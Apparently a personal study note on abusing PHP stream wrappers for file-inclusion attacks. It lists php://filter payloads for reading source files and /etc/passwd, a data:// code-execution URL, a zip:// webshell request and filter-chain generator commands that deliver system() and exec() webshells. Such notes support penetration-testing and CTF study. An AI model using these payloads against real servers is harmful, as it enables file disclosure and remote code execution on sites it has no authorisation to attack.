 # PHP Wrappers

PHP Wrappers are a powerful wrappers of lots a functionality that take input and perform operations on it without developer having to write in-house checks, filters, etc against common input to website.
- [Validation Filters perform type and pattern checks](https://www.php.net/manual/en/filter.filters.validate.php)
- [Sanitization Filters perform string operations to modify unsafe input](https://www.php.net/manual/en/filter.filters.sanitize.php)
- [Only other is "callback" where all flags are ignored](https://www.php.net/manual/en/filter.filters.misc.php)
- [PHP Filter flags](https://www.php.net/manual/en/filter.filters.flags.php) provides developers to filter by builtin conditions-on-passed-input, encode the input.

```php
// Protocol Wrapper
php://filter
// Filter
convert.base64-decode
// Resource Type
resource=
// Data Type
data://plain/text,
// Payload
...
```


Use cases in Hacking
```php
// base64 encode to bypass filters
?php://filter/convert.base64-encode/resource=$file

// code execution - requires `allow_url_include`
?php://data/text/plain,$urlencodePhpcode
```

- File inclusion vulnerabilities can exists due to how PHP filters are used with `include()`.
- PHP servers are vulnerable to RFI (Remote [[File-Inclusion]]) if the `allow_url_include` it set
- If [[HTML]] tags are missing and PHP is executing on the server we can use PHP filters to add `?php://filter/convert.base64-encode/resource=$CURRENTPAGE.php` to potential return the executed PHP back

#### BEWARE - PHP Filters may automatically append .php

Be aware that `php://filter` is a stream wrapper and how you are abusing `php://filters` maybe affected by source code; for example:
- Appending a file extension by default
- Checking what files are being streamed 

A list 
```php
php://filter/convert.base64-encode/resource=
php://filter/convert.iconv.utf-8.utf-16/resource=
php://filter/read=string.rot13/resource=
php://filter/string.toupper/resource=
php://filter/string.tolower/resource=
php://filter/string.strip_tags/resource=
```


[LFI / RFI using PHP://filters](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers) examples from:
```php
// only php://filter is case insensitive
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index
// unzip a .zip file that you have uploaded to the server somehow and execute a webshell 
http://example.com/index.php?file=zip:/var/www/html/exploit.zip%23cmd.php&cmd=whoami
````
They can be chained together with:
```php
// ... with: | or /
// Beware this probably wont work as .php may be appended
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
// base64encode only for limit exfil - buffer size 8192 bytes





```
- [PHP Documentation base64encode](https://www.php.net/manual/en/function.base64-encode.php)
- [Filter Chains can used to chain encodings till a desired payload - yikes](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)
	- Generate PHP filter chains with [synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)
	- Junk characters do end up appended to the end
- [LFI2RCE.py](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI2RCE.py)
- Consider [Hacktricks improvements on a Alles CTF script to get LFI2RCE via PHP filter](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)

```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]);?>'
```
No `system` no problem
```bash
python3 php_filter_chain_generator.py --chain '<?= exec($_GET[0]); ?>'
```

## References

[LFI / RFI using PHP://filters](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers)
[PHP Documentation base64encode](https://www.php.net/manual/en/function.base64-encode.php)
[Filter Chains Usage by Synacktiv](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it.html) [synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)
[LFI2RCE.py](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI2RCE.py)
[Hacktricks improvements on a Alles CTF script to get LFI2RCE via PHP filter](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)
[Validation Filters](https://www.php.net/manual/en/filter.filters.validate.php)
[Sanitization Filters](https://www.php.net/manual/en/filter.filters.sanitize.php)
[Misc Filters](https://www.php.net/manual/en/filter.filters.misc.php)
[PHP Filter flags](https://www.php.net/manual/en/filter.filters.flags.php) 
[THM Room File Inclusion, Path Traversal](https://tryhackme.com/room/filepathtraversal)
